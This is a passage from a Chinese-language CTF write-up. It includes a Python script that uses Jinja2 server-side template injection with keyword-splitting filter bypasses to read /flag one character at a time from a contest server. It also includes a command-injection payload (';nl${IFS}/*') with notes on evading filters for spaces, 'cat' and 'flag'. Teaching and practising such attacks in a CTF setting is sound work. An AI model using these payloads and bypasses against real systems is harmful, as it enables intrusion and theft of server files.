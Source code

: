 #### 盲注遍历每一位 flag

```python
import requests, re, string

url = 'http://222.201.144.148:19000/'
char_set = string.printable
flag = ''

for i in range(1,33):
    for ch in char_set:
        session = requests.Session()
        response = session.get(url+"{%if []['__cl'+'ass__']['__ba'+'se__']['__subc'+'lasses__']()[388]['__in'+'it__']['__glo'+'bals__']['__buil'+'tins__']['op'+'en']('/flag', 'r').read()[:"+str(i)+"]=='"+flag+ch+"' %}kkkk{%endif%}")
        if 'kkkk' in response.text:
            flag += ch
            print "[*] flag is: {}".format(flag)
            break
```

#### 出题翻车

比赛到一半考虑到大家可能会自闭，我还是把`{{、}}`给删掉了，变成普普通通的绕过关键字，所以最终的 payload 就是第一个，或许大家百度一下就可以找到 exp 了...

## 听说我是签到题

3 solved

### 出题思路

命令执行+绕过关键字

### 解题步骤

根据提示过滤了空格，cat 和 flag

- 空格绕过

空格可以变量拼接绕过，或者用 ${IFS}

- cat绕过

反斜杠绕过 `ca\t`，或者其他显示命令绕过`nl、tail...`

- flag绕过

变量拼接绕过，或正则绕过

#### 最终 payload

```
;nl${IFS}/*
```

## easy_upload
